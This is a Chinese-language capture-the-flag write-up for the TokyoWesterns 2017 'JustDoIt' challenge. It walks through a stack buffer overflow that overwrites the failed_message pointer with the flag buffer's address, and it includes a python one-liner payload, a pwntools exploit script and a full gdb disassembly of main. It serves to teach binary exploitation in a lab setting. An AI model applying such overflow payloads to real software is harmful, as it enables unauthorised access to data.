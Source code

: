 # 2.2 TokyoWesterns'17: JustDoIt
首先查看安全机制

![image](images/53093766.png)

然后用IDA查看反汇编的代码

![image](images/52843100.png)

从代码中可以看出，程序首先判断是否存在可读的flag.txt文件，然后把flag.txt文件的内容读取到flag变量中，接着获取用户输入，判断用户输入是否等于PASSWORD变量，等于则输出成功消息

查看PASSWORD变量的值为P@SSW0RD

![image](images/52960731.png)

输入程序后，并不能输出flag

![image](images/53011703.png)

我们可以看到用户输入的最长长度为32，否则就能够覆盖EIP进行RCE了，那么现在我们知道flag保存在flag变量里，而能够输出的变量则是success\_message 和 failed\_message，所以我们需要把failed\_message的地址覆盖为flag的地址，这样程序输出错误消息的时候就能够输出flag，failed\_message又赋值给变量v6，所以需要知道v6, s, flag变量的偏移地址

查看得到v6变量和s变量的偏移地址如下，分别为0xc和0x20：

![image](images/53390449.png)

flag变量的地址为0x804a080：

![image](images/53424974.png)

所以可以构造payload如下：

```python
python -c 'print "0" * 20 + "\x80\xa0\x04\x08"' | ./just_do_it
# 地址从后面往前读
```
```python
#!/usr/bin/env python

from pwn import *

payload = "0" * 20 + p32(0x804A080)

target = process('./just_do_it')
target.sendline(payload)
target.interactive()
```
![image](images/76d4035d-84d4-44c8-9951-46fb4295731f.png)

使用gdb来进行分析，首先反汇编得到汇编代码

```cpp
Dump of assembler code for function main:
   0x080485bb <+0>: lea    ecx,[esp+0x4]
   0x080485bf <+4>: and    esp,0xfffffff0
   0x080485c2 <+7>: push   DWORD PTR [ecx-0x4]
   0x080485c5 <+10>:    push   ebp
   0x080485c6 <+11>:    mov    ebp,esp
   0x080485c8 <+13>:    push   ecx
   0x080485c9 <+14>:    sub    esp,0x24
   0x080485cc <+17>:    mov    eax,ds:0x804a060
   0x080485d1 <+22>:    push   0x0
   0x080485d3 <+24>:    push   0x2
   0x080485d5 <+26>:    push   0x0
   0x080485d7 <+28>:    push   eax
   0x080485d8 <+29>:    call   0x8048490 <setvbuf@plt>
   0x080485dd <+34>:    add    esp,0x10
   0x080485e0 <+37>:    mov    eax,ds:0x804a064
   0x080485e5 <+42>:    push   0x0
   0x080485e7 <+44>:    push   0x2
   0x080485e9 <+46>:    push   0x0
   0x080485eb <+48>:    push   eax
   0x080485ec <+49>:    call   0x8048490 <setvbuf@plt>
   0x080485f1 <+54>:    add    esp,0x10
   0x080485f4 <+57>:    mov    eax,ds:0x804a040
   0x080485f9 <+62>:    push   0x0
   0x080485fb <+64>:    push   0x2
   0x080485fd <+66>:    push   0x0
   0x080485ff <+68>:    push   eax
   0x08048600 <+69>:    call   0x8048490 <setvbuf@plt>
   0x08048605 <+74>:    add    esp,0x10
   0x08048608 <+77>:    mov    eax,ds:0x804a038     ; this is failed_message
   0x0804860d <+82>:    mov    DWORD PTR [ebp-0xc],eax  ; var v6 store in ebp-0xc
   0x08048610 <+85>:    sub    esp,0x8
   0x08048613 <+88>:    push   0x80487d1
   0x08048618 <+93>:    push   0x80487d3
   0x0804861d <+98>:    call   0x80484a0 <fopen@plt>
   0x08048622 <+103>:   add    esp,0x10
   0x08048625 <+106>:   mov    DWORD PTR [ebp-0x10],eax
   0x08048628 <+109>:   cmp    DWORD PTR [ebp-0x10],0x0
   0x0804862c <+113>:   jne    0x8048648 <main+141>
   0x0804862e <+115>:   sub    esp,0xc
   0x08048631 <+118>:   push   0x80487dc
   0x08048636 <+123>:   call   0x8048450 <perror@plt>
   0x0804863b <+128>:   add    esp,0x10
   0x0804863e <+131>:   sub    esp,0xc
   0x08048641 <+134>:   push   0x0
   0x08048643 <+136>:   call   0x8048470 <exit@plt>
   0x08048648 <+141>:   sub    esp,0x4
   0x0804864b <+144>:   push   DWORD PTR [ebp-0x10]
   0x0804864e <+147>:   push   0x30
   0x08048650 <+149>:   push   0x804a080
   0x08048655 <+154>:   call   0x8048440 <fgets@plt>
   0x0804865a <+159>:   add    esp,0x10
   0x0804865d <+162>:   test   eax,eax
   0x0804865f <+164>:   jne    0x804867b <main+192>
   0x08048661 <+166>:   sub    esp,0xc
   0x08048664 <+169>:   push   0x80487ee
   0x08048669 <+174>:   call   0x8048450 <perror@plt>
   0x0804866e <+179>:   add    esp,0x10
   0x08048671 <+182>:   sub    esp,0xc
   0x08048674 <+185>:   push   0x0
   0x08048676 <+187>:   call   0x8048470 <exit@plt>
   0x0804867b <+192>:   sub    esp,0xc
   0x0804867e <+195>:   push   0x8048800
   0x08048683 <+200>:   call   0x8048460 <puts@plt>
   0x08048688 <+205>:   add    esp,0x10
   0x0804868b <+208>:   sub    esp,0xc
   0x0804868e <+211>:   push   0x8048835
   0x08048693 <+216>:   call   0x8048460 <puts@plt>
   0x08048698 <+221>:   add    esp,0x10
   0x0804869b <+224>:   mov    eax,ds:0x804a060
   0x080486a0 <+229>:   sub    esp,0x4
   0x080486a3 <+232>:   push   eax
   0x080486a4 <+233>:   push   0x20
   0x080486a6 <+235>:   lea    eax,[ebp-0x20]
   0x080486a9 <+238>:   push   eax
   0x080486aa <+239>:   call   0x8048440 <fgets@plt>
   0x080486af <+244>:   add    esp,0x10
   0x080486b2 <+247>:   test   eax,eax
   0x080486b4 <+249>:   jne    0x80486d0 <main+277>
   0x080486b6 <+251>:   sub    esp,0xc
   0x080486b9 <+254>:   push   0x8048849
   0x080486be <+259>:   call   0x8048450 <perror@plt>
   0x080486c3 <+264>:   add    esp,0x10
   0x080486c6 <+267>:   sub    esp,0xc
   0x080486c9 <+270>:   push   0x0
   0x080486cb <+272>:   call   0x8048470 <exit@plt>
   0x080486d0 <+277>:   mov    eax,ds:0x804a03c
   0x080486d5 <+282>:   sub    esp,0x8
   0x080486d8 <+285>:   push   eax
   0x080486d9 <+286>:   lea    eax,[ebp-0x20]
   0x080486dc <+289>:   push   eax
   0x080486dd <+290>:   call   0x8048430 <strcmp@plt>
   0x080486e2 <+295>:   add    esp,0x10
   0x080486e5 <+298>:   test   eax,eax
   0x080486e7 <+300>:   jne    0x80486f1 <main+310>
   0x080486e9 <+302>:   mov    eax,ds:0x804a034
   0x080486ee <+307>:   mov    DWORD PTR [ebp-0xc],eax
   0x080486f1 <+310>:   sub    esp,0xc
   0x080486f4 <+313>:   push   DWORD PTR [ebp-0xc]
   0x080486f7 <+316>:   call   0x8048460 <puts@plt>
   0x080486fc <+321>:   add    esp,0x10
   0x080486ff <+324>:   mov    eax,0x0
   0x08048704 <+329>:   mov    ecx,DWORD PTR [ebp-0x4]
   0x08048707 <+332>:   leave  
   0x08048708 <+333>:   lea    esp,[ecx-0x4]
   0x0804870b <+336>:   ret    
End of assembler dump.

```
从代码中截取变量v6的部分

![image](images/8cc2b6bd-45a0-4919-ac00-e636bcd7f960.png)